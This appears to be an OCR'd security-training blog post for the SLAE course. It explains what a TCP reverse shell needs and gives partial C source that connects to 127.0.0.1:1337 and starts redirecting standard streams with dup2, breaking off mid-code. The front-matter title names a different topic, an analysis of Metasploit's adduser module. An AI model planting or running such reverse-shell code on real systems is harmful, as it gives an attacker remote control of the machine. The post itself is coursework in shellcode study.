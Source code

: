 ```yaml
---
layout: post
title: "Analyzing Metasploit linux/x86/adduser module using GDB"
date: 2017-05-04 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 2_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
  

## What are the requirements for a reverse shell?

A reverse shell requires the following:  

  1. Connect to an IP on a given port (now acting as a client).
  2. Spawn a shell upon connecting.

Most of the process is very similar to [the bind shell example](http://www.abatchy.com/2017/05/tcp-bind-shell-in-assembly-null.html) (which means lots of repetition here), with a few twists:  
  
1\. Listener is **external**, by that it means our code won't be listening to incoming connections, instead it will connect to an existing open port waiting for a connection.
2\. IP and port need to be defined in the code, bind shell **only** needed a port to start listening on. 

---

## TCP reverse shell in C

```cpp
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int client_sockid;  // sockfd for client  
int host_sockid;    // sockfd for host  
      
struct sockaddr_in hostaddr;            // sockaddr struct   
  
int main()  
{  
    // Create socket  
    client_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using it  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(1337);  
    hostaddr.sin_addr.s_addr = inet_addr("127.0.0.1");  
  
    // Connect to existing listener  
    connect(client_sockid, (struct sockaddr*)&hostaddr, sizeof(hostaddr));  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
```